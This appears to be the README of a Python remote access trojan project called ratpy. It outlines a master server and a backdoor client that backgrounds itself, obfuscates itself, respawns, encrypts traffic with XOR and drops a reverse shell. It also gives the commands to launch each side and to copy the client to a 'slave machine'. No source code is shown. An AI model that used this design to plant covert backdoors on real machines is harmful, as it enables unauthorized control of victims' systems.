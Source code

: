 # ratpy
### another snake friendly rat - simple backdoor without tools
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>

### _________________________________________________________________________
## Architecture
````
This is a backbone build that can be extended for specific uses
Start server listening up to 20 connections with a simple menu interface in the terminal
Before deploying and starting client change the port and server ip address for your server 
Client will background by forking twice and killing parents and trying to obfuscate itself (can be improved for your choice of system)
If client fails it will respawn forever which might crash the system after a while but wont start on reboot (can be added)
Encryption is done with simple xor of bytearray of data with the key
Which are verified with a TCP like handshake channel or the exchange will be restarted
Once connection is estabilished we have a default set of commands, which can be expanded, to perform basic machine tasks and drop a shell
````

````
The proggie has plenty of debug functions to help understand and debug it, the main utility of this project is
provide a prototype to build something more interesting in a different language, add some tools easily to experiement or get something quickly
tested and educational purposes
````
````
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
````
````
### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
````

### _________________________________________________________________________
## Adding extensions
* this is just a backbone which can be expanded by adding more tools to the interface and tools dir
